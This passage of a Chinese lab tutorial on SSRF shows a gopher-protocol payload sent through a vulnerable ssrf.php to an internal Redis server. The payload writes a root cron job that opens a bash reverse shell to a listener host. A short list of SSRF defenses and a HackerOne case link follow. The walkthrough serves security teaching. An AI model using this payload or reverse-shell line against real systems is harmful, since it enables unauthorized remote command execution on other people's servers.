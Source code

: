 #### 7.4.12 测试攻击语句

**须先清除测试机(192.168.11.192)反弹shell计划任务，避免对如下测试造成影响**

```
crontab -e
crontab -l
```

![image-20220408112028898](../../../images/image-20220408112028898.png)

#### 7.4.13 退出测试nc监听，重新开启nc监听任务

```
nc -lvp 3333
```

![image-20220408112310944](../../../images/image-20220408112310944.png)

#### 7.4.14 开始攻击

使用ssrf漏洞将gopher攻击语句传递到内网redis主机

```
http://192.168.11.135/ssrf.php?url=gopher%3A%2F%2F192.168.11.203%3A6379%2F_*1%250d%250a%248%250d%250aflushall%250d%250a*3%250d%250a%243%250d%250aset%250d%250a%247%250d%250afarmsec%250d%250a%2459%250d%250a%250a%250a*%2F1%20*%20*%20*%20*%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F192.168.10.96%2F3333%200%3E%261%250a%250a%250a%250d%250a*4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a*4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a*1%250d%250a%244%250d%250asave%250d%250a%250a
```



![image-20220408113120957](../../../images/image-20220408113120957.png)

#### 7.4.15 nc监听到反弹的shell

![image-20220408113013899](../../../images/image-20220408113013899.png)



## 8 防御

```
禁用不需要的协议(如：file:///、gopher://,dict://等)，仅仅允许http和https请求
统一错误信息，防止根据错误信息判断端口状态
禁止302跳转，或每次跳转，都检查新的Host是否是内网IP，直到抵达最后的网址
设置URL白名单或者限制内网IP
```

## 9 思考

ssrf与文件包含的相似处与不同处？

## 10 真实案例

`https://hackerone.com/reports/115748`
